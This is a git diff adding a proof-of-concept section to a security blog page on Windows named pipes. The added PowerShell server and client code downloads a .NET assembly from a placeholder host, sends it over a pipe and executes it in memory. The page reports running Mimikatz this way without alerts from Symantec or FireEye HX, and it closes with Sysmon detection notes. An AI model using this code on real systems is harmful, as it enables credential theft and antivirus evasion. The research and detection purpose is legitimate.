

update namedpipe.html

diff --git a/vuln/namedpipe.html b/vuln/namedpipe.html
@@ -141,14 +141,14 @@
                                     Invoke-Expression -Command $auth
                                 </div>
 
-                                With powershell, the cmdlet <strong>Invoke-expression</strong> runs a command on the local machine
+                                The cmdlet <strong>Invoke-expression</strong> runs the specified command on the local machine which will authenticate itself to the server.
                             </p>
 
                             <h4 class="mb-0">Command execution</h4>
                             <p>
-                                On the previous section, we've seen that it is possible to send message from the server to client and execute a net use command to authenticate to another system through network. So with the named pipe functionnalities, the server can send command to the client and the client immediately execute it.
+                                On the previous section, we've seen that it is possible to send message from the server to client and execute <strong>net use</strong> command to authenticate to another system through network. So with the named pipe functionnalities, the server can send commands to the client and execute it.
 
-                                <img src="img/namedpipe/sending_message.jpg" class="img-fluid" width="500">
+                                <img src="img/namedpipe/sending_message.jpg" class="img-fluid" width="700">
 
                                 The method WriteLine() and ReadLine() of the class StreamWriter and StreamReader will send and receive the message through the pipe. <br>
                                 <br>
@@ -186,8 +186,102 @@
                                 Example : <strong>Running IPCONFIG</strong>
                                 <img src="img/namedpipe/command_exe.jpg" class="img-fluid" width="700">
                                 In this example, we ran "ipconfig" to get the ip address information, but this also means "data exfiltration", we could have navigated through different path "C:\Users\[Username]\Documents" or check mapped drives with "<strong>net use</strong>" or check local account "<strong>net user</strong>"...
+                            </p>
+                            
+                            <h4 class="mb-0">Remote Code Execution</h4>
+                            <p>
+                                This is probably the most interesting part. Executing code in another computer from our own system. Cobalt Strike uses Windows pipes to communicate between systems in the network. For example, the "keylogger" module is able to send the pressed keys back to the main beacon process. The keylogger module is fully fileless, which makes the detection harder for antiviruses and EDR. The pipes help that communication between the server and the clients without writing on the disk. We will simulate how to load and execute the process in memory to bypass the detection from the antivirus and EDR.
 
+                                In PowerShell, it is possible to run a .NET application executable with the Assembly class from the System.Reflection namespace. .NET application can be application written in C#. To illustrate it, we will start with a simple C# program that will print "Hello World". <br>
+                                <br>
 
+                               <i><u>Content of the file "Program.cs"</u></i> 
+                                <div class="squarebox">
+                                    using System; <br>
+                                    <br>
+                                    namespace Malcode <br>
+                                    { <br>
+                                    &emsp;class Program <br>
+                                    &emsp;{ <br>
+                                    &emsp;&emsp;static void Main() <br>
+                                    &emsp;&emsp;{ <br>
+                                    &emsp;&emsp;&emsp;Console.WriteLine("Hello World!"); <br>
+                                    &emsp;&emsp;} <br>
+                                    &emsp;} <br>
+                                    }<br>
+                                </div>
+
+                                Compile the .cs file with <strong>csc.exe</strong> to create a assembly file. <br>
+                                Then use the <strong>Load()</strong> method from the Assembly class to load the assembly in memory, find the entry point that is located with the main function and run the program with the method <strong>Invoke()</strong>
+
+                                <div class="squarebox">
+                                    $assemblyPath = 'D:\Programming\C#\YahudScript\Malcode\Malcode.exe' <br>
+                                    $assemblyByte = [System.IO.File]::ReadAllBytes($assemblyPath) <br>
+                                    $assembly = [System.Reflection.Assembly]::Load($assemblyByte) <br>
+                                    $entryPoint = $assembly.EntryPoint <br>
+                                    $entryPoint.Invoke($null, $null) <br>
+                                </div>
+
+                                This code is showing you how to run a .NET application in PowerShell. To adapt this for the pipes, the server has to send the assembly bytes through the pipe, and the client loads the assembly bytes. The server can download the content of an .NET application using (New-Object Net.WebClient).DownloadString(URL) to download the content of an executable file and store it in a variable. Then send the variable through the pipe and the client loads and executes it. <br> <strong>=> Remote Code Execution</strong>
+
+                                <img src="img/namedpipe/helloworld.jpg" class="img-fluid" width="700">
+
+                                Now that we demonstrate how to remotely execute a .NET application from PowerShell, let's make some test to see if we can bypass some defenses. <br>
+                                <a href="https://github.com/S3cur3Th1sSh1t/Creds/blob/master/Csharp/PELoaderofMimikatz.cs">PELoaderofMimikatz.cs</a> from S3cur3Th1sSh1t is a version of Mimikatz for .NET application. <br>
+                                <br>
+                                If the assembly is found on disk, it will be immediately detected by the antivirus, the test has been done with Symantec EndPoint Protection.
+
+                                <img src="img/namedpipe/mimikatz_disk.jpg" class="img-fluid" width="600">
+
+                                But what happened if we load it in memory ? Will the antivirus be able to detect it ? <br>
+
+                                <i style="color: red;">Server code :</i>
+                                <div class="squarebox">
+                                    $assemblyFile = (New-Object Net.WebClient).DownloadString("https://X.X.X.X/YahudScript.exe") <br>
+                                    $assemblyByte = [System.IO.File]::ReadAllBytes($assemblyFile) <br>
+                                    $assemblyB64 = [System.Convert]::ToBase64String($assemblyByte) <br>
+                                    $sw.WriteLine($assemblyB64) # Server sending to the client <br>
+                                </div>
+
+                                <i style="color: yellow;">Client code :</i>
+                                <div class="squarebox">
+                                    $assemblyB64 = $sr.ReadLine() <br>
+                                    $assemblyByte = [System.Convert]::FromBase64String($assemblyB64)<br>
+                                    $assembly = [System.Reflection.Assembly]::Load($assemblyByte)<br>
+                                    $assembly.EntryPoint.Invoke($null, $null)<br>           
+                                </div>
+
+                                Nothing has been written on disk, everything is happening through memory, we store the bytes in the variable and execute the content of that variable to launch .NET application.
+
+                                <img src="img/namedpipe/mimikatz_memory.jpg" class="img-fluid" width="500">
+
+                                <strong>Remote Code Execution</strong>. Mimikatz has been launched, no alert from <strong>Symantec EndPoint Protection</strong> and <strong>FireEye HX</strong>. The server can launch Mimikatz to any client that is connected to the pipes.
+
+                                Without any privilege escalation, we cannot do a LSASS dump, but it is mainly to demonstrate that loading executable in memory is still a huge weakness of antiviruses and EDR. 
+                            </p>
+
+                            <h4 class="mb-0">Detection</h4>
+                            <p>
+                                <strong>This section is mainly for FireEye for them to improve the detection</strong> <br>
+                                <br>
+                                As mentionned previously, the detection has not been great for the antivirus and EDR. We have created a named pipe under the name "YahudPipe" and no event has been recorded in the triage of the system from FireEye HX.
+
+                                <img src="img/namedpipe/fireeye_detection.jpg" class="img-fluid" width="800">
+
+                                To detect creation of a named pipe and connection to a named pipe, Sysmon is a tool that is available to monitor it. By filtering the Sysmon log in the event viewer with the ID 17, 18, we might monitor those events. <br>
+                                <ul>
+                                    <li>Sysmon event id 17 : Pipe creation</li>
+                                    <li>Sysmon event id 18 : Pipe connection</li>
+                                </ul>
+
+                                <img src="img/namedpipe/sysmon.jpg" class="img-fluid" width="600">
+
+                                The detection has been partially successful. Using accesschk, the connect pipe event has been recorded however the connection of my pipe has not been recorded by the event ID 18. The creation of the pipe "YahudPipe" has been fully recorded.
+                            </p>
+
+                            <h4 class="mb-0">Conclusion</h4>
+                            <p>
+                                Named pipes is a windows functionality that exist for a very long time, it is mainly used to send data from a process to another process. Most of people know the pipe to send the output of a command to the input of another command, such as dir | findstr "cmd.exe", which will send the output of the command "dir" as the input of the command "findstr". On the attack side, it is currently used by Cobalt Strike to exfiltrate data but on the defense side, we are still lacking of detection regarding this windows feature. As shown in this POC, the antivirus and EDR does not detect anything regarding the creation or the connection event of a pipe. Moreover, it give the opportunity for attackers to remotely execute code in memory which is another way to evade antivirus and EDR detection.
                             </p>
 
                     </div>
